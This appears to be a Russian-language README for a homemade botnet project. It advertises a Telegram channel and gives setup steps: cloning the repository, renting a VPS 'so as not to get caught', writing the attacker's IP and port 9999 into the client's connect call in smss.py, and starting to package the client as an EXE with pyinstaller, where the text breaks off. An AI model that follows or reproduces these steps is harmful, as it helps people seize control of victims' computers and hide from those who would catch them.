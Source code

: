 <h1 align="center">Подпишись на мой телеграмм <a href="https://t.me/samurai_figure" target="_blank">N∆RI</a> 
<img src="https://github.com/blackcater/blackcater/raw/main/images/Hi.gif" height="32"/></h1>
<h3 align="center">Простой бот-нет своими руками ot N∆RI</h3>
Можно также использовать как панель для VPS ботнета <br>
Клонируем гит <br>
git clone https://github.com/Samuraianonweb/bot
<br>
cd bot
<br>
Чтобы не попасться , лучше использовать VPS<br>

Чтобы узнать свой(VPS) ip $ ifconfig <br>
Редактируем файл smss.py

<br>
run=False
	def __init__(self, connect:Tuple[str,int]=("вставляем свой ip",9999)) -> None:
<br>

Когда всё подготовленно , осталось зделать с Python  в EXe файл<br>

Установка pyinstaller<br>
